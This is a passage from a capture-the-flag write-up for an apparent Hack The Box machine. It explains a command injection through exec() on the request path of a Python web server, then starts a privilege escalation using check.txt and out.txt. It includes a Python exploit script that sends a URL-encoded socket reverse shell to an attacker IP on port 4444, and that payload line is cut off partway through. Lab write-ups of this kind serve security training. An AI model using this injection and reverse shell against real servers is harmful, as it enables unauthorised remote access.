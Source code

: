 ![](https://i.ibb.co/r3dWhJG/code-part.png)

* After reviewing the script for a while and getting some tips over the HTB forum , i understand that the line **exec(info.format(path))** This is how you do string formating , okey! this is vulnerable to command injection. This line which passes tha path whatever the request goes to the exec function like **PYTHONPATH Hijacking**. Let's exploit this script by executing my reverse shell.

* python reverse shell:

```ruby

import requests
import urllib
import os

url = 'http://10.10.10.168:8080/'

path='5\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.xx.xx",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1>

payload = urllib.parse.quote(path)
print("payload")
print(url+payload)

r= requests.get(url+payload)
print(r.headers)
print(r.text)

```

* **reverse shell**:

![](https://i.ibb.co/1LWF3CY/wwwreversshell.png)

# []()Privilege Escalation --->> Robert:

* open the home directory to >> **robert** >> you will find some interesting files.

![](https://i.ibb.co/k1RkfJV/robert-home.png)

* cat **check.txt** 

```ruby

Encrypting this file with your key should result in out.txt, make sure your key is correct!

```

* so check.txt is the original text file of out.txt. using the check.txt as key the output came as out.txt file 

* from the source code of the python script i found that we will use it to decrypt the "out.txt" file
